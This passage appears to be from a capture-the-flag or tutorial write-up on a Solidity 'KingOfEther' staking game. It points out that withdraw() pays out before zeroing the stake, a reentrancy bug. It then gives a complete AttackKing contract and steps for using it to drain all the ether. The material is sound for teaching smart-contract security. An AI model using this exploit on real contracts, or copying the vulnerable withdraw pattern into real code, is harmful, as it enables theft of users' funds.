         function depositStake() public payable {
            require(msg.value > 0, "0 Amount not valid");
            require(!isGameOver, "Game ended");

            stakes[msg.sender] += msg.value;

            if(stakes[msg.sender] > stakes[king]){
                king = msg.sender;
                emit King(king, stakes[king]);
            }
        }

        function endGame() public {
            require(block.timestamp > startingTime + 30, "Can't end now");
            require(!isGameOver, "Alredy ended");

            stakes[king] += 1 ether;
            isGameOver = true;
        }

        function withdraw() public {
            require(isGameOver, "Game not ended");
            require(stakes[msg.sender] > 0, "You have no stakes");

            (bool success, ) = msg.sender.call{value: stakes[msg.sender]}("");
            require(success, "Withdraw Failed");
            stakes[msg.sender] = 0;
        }

    }
    ```

- The `withdraw()` function is vulnerable to Reentrancy as it makes external call before updating the stake value.
- The `AttackKing` contract will exploit the KingOfEther and drains all the ether.

    ```
    contract AttackKing{
        KingOfEther public kingContract;
        constructor(address _kingContract) {
            kingContract = KingOfEther(_kingContract);
        }
        function deposit() public payable  {
            kingContract.depositStake{value: 1 ether}();
        }
        function exploit() public {
            require(block.timestamp > kingContract.startingTime()+30, "Wait to exploit");
            if(!kingContract.isGameOver()){
                kingContract.endGame();
            }
            kingContract.withdraw();
        }

        receive() external payable {  
            if(address(kingContract).balance >= 1 ether){
                kingContract.withdraw();
            }
        }
    }
    ```
- Call `deposit()` first then call `exploit()` to attack the `KingOfEther`.
